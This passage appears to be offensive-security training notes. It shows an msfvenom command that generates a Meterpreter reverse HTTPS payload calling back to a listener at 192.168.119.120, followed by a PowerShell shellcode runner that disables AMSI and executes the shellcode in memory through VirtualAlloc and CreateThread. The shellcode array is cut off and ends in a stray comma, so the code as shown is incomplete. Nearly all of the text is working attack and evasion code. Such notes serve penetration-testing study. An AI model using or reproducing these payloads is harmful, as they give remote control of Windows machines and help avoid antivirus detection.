 ```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 EXITFUNC=thread -f ps1
```

Modify the shellcode runner `run.txt` to include one of the AMSI bypasses

`run4.txt`

```pwsh
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)

function LookupFunc {

	Param ($moduleName, $functionName)

	$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
      Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
	return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

function getDelegateType {

	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
		[Parameter(Position = 1)] [Type] $delType = [Void]
	)

	$type = [AppDomain]::CurrentDomain.
    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), 
    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
      DefineDynamicModule('InMemoryModule', $false).
      DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', 
      [System.MulticastDelegate])

  $type.
    DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).
      SetImplementationFlags('Runtime, Managed')

  $type.
    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
      SetImplementationFlags('Runtime, Managed')

	return $type.CreateType()
}

$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)

[Byte[]] $buf = 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)

$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)
```